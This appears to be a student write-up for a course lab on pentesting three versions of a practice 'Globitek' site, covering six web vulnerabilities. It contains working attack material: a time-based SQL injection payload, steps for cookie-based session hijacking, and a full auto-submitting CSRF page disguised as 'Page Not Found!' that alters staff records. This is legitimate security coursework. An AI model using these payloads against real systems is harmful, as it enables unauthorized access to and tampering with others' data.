





# Project 8 - Pentesting Live Targets

Time spent: **4** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection
Blue salesperson url `https://35.184.88.145/blue/public/salesperson.php?id=1`, the id is vulnerable to sql injections as shown when we insert ' OR SLEEP(5)=0--' in place of id number.

Vulnerability #2: Session Hijacking/Fixation
By logging into account from browser1 we can get the PHPSESSIONID. Someone can steal PHPSESSIONID and in theirbroswer, changed the PHPSESSIONID to match that of browser1 to access pages without the need of login.

## Green

Vulnerability #1: Username Enumeration
The login page give bold message when an exisitng username login attempt was made while if the username does not exist, the login message is unbold thus giving crucial information to hackers.

Vulnerability #2: Cross-Site Scripting
Feedback section of contact us is vulnerable to XSS attacks as shown when we have 
`` as input. When the user logs in, the javascript is ran. 

## Red

Vulnerability #1: Insecure Direct Object Reference
By changing the id number in `https://104.198.208.81/red/public/salesperson.php?id=1` we can access sensitive information that are otherwise unavailable.

Vulnerability #2: Cross-Site Request Forgery
By submitting a form in the feedback section to change data within staff which can only be originally modified only by a logged in user.
The form contains the following:
` <html>
  <head>
    <title>Page Not Found!</title>
  </head>
  <body onload="document.form.submit()">
    <form action="https://104.198.208.81/red/public/staff/salespeople/edit.php?id=11" method="POST" name="form" style="display: none;" target="hidden_results" >
      <input type="text" name="first_name" value="YOUGOTHACKED" />
      <input type="text" name="last_name" value="Busyman" />
      <input type="text" name="phone" value="123456789" />
      <input type="text" name="email" value="busyman@globitek.com" />
    </form>
    <iframe name="hidden_results" style="display: none;"></iframe>
  </body>
</html> `

## Notes

